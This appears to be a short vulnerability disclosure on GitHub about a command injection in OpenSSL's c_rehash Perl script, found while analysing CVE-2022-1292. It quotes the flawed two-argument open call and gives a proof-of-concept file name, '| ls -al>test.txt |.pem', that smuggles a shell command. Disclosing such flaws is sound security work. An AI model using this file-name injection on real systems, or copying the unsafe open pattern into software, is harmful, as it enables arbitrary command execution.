

## OpenSSL 命令注入漏洞

I found another command injection vulnerability while analyzing CVE-2022-1292.<br>
https://github.com/openssl/openssl/blob/master/tools/c_rehash.in#L138<br>
```
sub check_file {
  my ($is_cert, $is_crl) = (0,0);
  my $fname = $_[0];
  open IN, $fname;#Command Injection!!
  while(<IN>) {
      if (/^-----BEGIN (.*)-----/) {
          my $hdr = $1;
          if ($hdr =~ /^(X509 |TRUSTED |)CERTIFICATE$/) {
              $is_cert = 1;
              last if ($is_crl);
          } elsif ($hdr eq "X509 CRL") {
              $is_crl = 1;
              last if ($is_cert);
          }
      }
  }
  close IN;
  return ($is_cert, $is_crl);
}
```
When executing open IN, $fname;, $fname causes command injection.<br>
<br>
poc.pem 's content:<br>
```
cat '| ls -al>test.txt |.pem'
-----BEGIN X509 CERTIFICATE-----
```

The root causes of the vulnerability are as follows:<br>

```
https://perldoc.perl.org/perlipc#Using-open%28%29-for-IPC
https://perldoc.perl.org/functions/open#Opening-a-filehandle-into-a-command
```